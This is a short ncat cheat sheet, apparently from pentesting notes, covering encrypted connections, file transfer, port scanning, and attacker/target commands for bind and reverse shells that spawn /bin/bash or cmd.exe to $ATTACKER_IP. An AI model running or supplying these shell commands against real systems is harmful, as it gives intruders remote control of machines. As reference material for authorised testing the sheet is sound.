 # ncat

> Allows for encrypted and authenticated TCP or UDP connections to ports on other hosts.

## Connect

```bash
ncat -nv $REMOTE_IP $REMOTE_PORT --ssl
```

---

## Listen

```bash
ncat -nlvp $REMOTE_PORT --ssl
```

---

## File Transfer

```bash
ncat -nv $REMOTE_IP $REMOTE_PORT -ssl < $FILE
```

---

## File Reception

```bash
ncat -nlvp $REMOTE_PORT -ssl > $FILE
```

---

## Bind Shell

- Target:

```bash
ncat -e [/bin/bash or cmd.exe] [--allow $ATTACKER_IP] -nlvp $TARGET_LISTEN_PORT --ssl
```

- Attacker:

```bash
ncat -nv $TARGET_IP $TARGET_LISTEN_PORT --ssl
```

---

## Reverse Shell

- Attacker:

```bash
ncat -nlvp $ATTACKER_LISTEN_PORT --ssl
```

- Target:

```bash
ncat -nv $ATTACKER_IP $ATTACKER_LISTEN_PORT --ssl -e [/bin/bash or cmd.exe]
```

---

## Scan a range of ports

```bash
ncat -nv $REMOTE_IP $PORT_RANGE --ssl
```

- PORT_RANGE example:
  - 1-65535
